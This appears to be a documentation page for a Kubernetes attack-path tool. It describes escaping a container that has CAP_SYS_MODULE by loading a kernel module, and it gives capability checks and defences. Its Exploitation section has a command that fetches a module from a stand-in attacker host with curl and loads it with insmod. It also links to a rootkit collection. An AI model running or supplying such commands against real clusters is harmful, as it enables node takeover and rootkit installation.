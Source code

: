 # CE_MODULE_LOAD

Load a kernel module from within an overprivileged container to breakout into the node.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

Container isolation mechanisms are restricted to user-space execution. If an attacker gains kernel level execution via loading a kernel module or exploiting a kernel vulnerability, all isolation mechanisms can be bypassed. If a container is run with `--privileged` or if `CAP_SYS_MODULE` is explicitly enabled via the `securityContext` setting, kernel modules can be loaded from within the container, leading to a trivial and powerful container escape.

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_SYS_MODULE.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Download a pre-compiled kernel module suitable for the target OS/architecture (see [examples](https://github.com/milabs/awesome-linux-rootkits)) and load from within the container:

```bash
curl -O exploit.delivery/bad.ko
insmod bad.ko
```

## Defences

### Monitoring

+ Monitor for unfamiliar kernel modules loaded or kernel modules loaded from within a running pod which should both be high-fidelity signals of malicious activity.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

[EscapeModuleLoad](../../pkg/kubehound/graph/edge/escape_module_load.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Linux Privilege Escalation - Exploiting Capabilities - StefLan's Security Blog](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)